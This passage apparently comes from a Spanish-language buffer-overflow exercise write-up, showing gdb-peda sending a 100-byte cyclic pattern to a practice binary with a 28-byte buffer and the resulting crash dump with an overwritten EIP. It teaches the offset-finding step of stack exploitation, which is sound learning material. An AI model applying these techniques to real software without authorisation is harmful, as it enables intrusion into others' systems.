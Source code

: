 - En el código vimos que se esta definiendo que son 28 bytes de buffer a si que vamos a enviar 100 bytes para ver si se corrompe el binario.

```bash
gdb-peda$ pattern_arg 100
Set 1 arguments to program
```

- Ahora lo corremos.

```bash
gdb-peda$ run
Starting program: /home/miguel/StackOverflow/levels/levelTwo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x6b ('k')
EBX: 0x413b4141 ('AA;A')
ECX: 0xffffcf0c --> 0x2e6b3000 ('')
EDX: 0x1
ESI: 0xffffcfe0 --> 0x2
EDI: 0xf7ffcba0 --> 0x0
EBP: 0x41412941 ('A)AA')
ESP: 0xffffcf90 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x61414145 ('EAAa')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x61414145
[------------------------------------stack-------------------------------------]
0000| 0xffffcf90 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffcf94 ("AFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffcf98 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffcf9c ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcfa0 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcfa4 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcfa8 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcfac ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x61414145 in ?? ()
gdb-peda$
```

